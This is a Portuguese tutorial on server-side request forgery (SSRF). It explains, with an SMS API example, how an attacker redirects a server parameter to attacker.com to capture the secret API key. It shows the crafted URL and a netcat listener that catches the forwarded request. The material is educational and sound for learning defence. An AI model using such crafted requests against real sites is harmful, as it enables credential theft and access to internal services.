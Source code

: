# Server-side Request Forgery (SSRF)

O SSRF, ou Falsificação de Requisição do Lado do Servidor, é uma vulnerabilidade em que um atacante pode forçar uma aplicação web a enviar requisições em seu nome para destinos arbitrários, mantendo controle sobre o conteúdo da requisição. Essas vulnerabilidades geralmente surgem em implementações que utilizam serviços de terceiros.

Imagine uma aplicação web que utiliza uma API externa para enviar notificações SMS para seus clientes. Para cada mensagem, o site precisa fazer uma requisição web ao servidor do provedor de SMS para enviar o conteúdo da mensagem. Como o provedor de SMS cobra por mensagem, eles exigem que você adicione uma chave secreta, que eles pré-atribuem a você, a cada requisição feita à API deles. A chave da API funciona como um token de autenticação e permite ao provedor saber a quem faturar cada mensagem. O funcionamento da aplicação seria assim:

![SSRF](/content/SSRF.png)

olhando o diagrama, é fácil ver onde está a vulnerabilidade. A aplicação expõe o parâmetro do servidor para os usuários, que define o nome do servidor do provedor de SMS. Se o atacante quisesse, eles poderiam simplesmente alterar o valor do servidor para apontar para uma máquina controlada por ele, e sua aplicação web encaminharia a requisição de SMS para o atacante em vez do provedor de SMS. Como parte da mensagem encaminhada, o atacante obteria a chave da API, permitindo que eles utilizassem o serviço de SMS para enviar mensagens às suas custas. Para isso, o atacante só precisaria fazer a seguinte requisição para o seu site:

`https://www.mysite.com/sms?server=attacker.com&msg=HACKED`

Isso faria com que o servidor sms fizesse uma requisição para:

`https://attacker.com/api/send?msg=HACKED`

Você poderia capturar o conteúdo da requisição usando o Netcat:

```
user@ubuntu$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

Este é um caso muito básico de SSRF. Se isso não parecer assustador, o SSRF pode ser usado para fazer muito mais. Em geral, dependendo dos detalhes de cada cenário, o SSRF pode ser usado para:

- Enumerar redes internas, incluindo endereços IP e portas.
- Abusar das relações de confiança entre servidores e obter acesso a serviços restritos.
- Interagir com alguns serviços não-HTTP para obter execução remota de código (RCE).




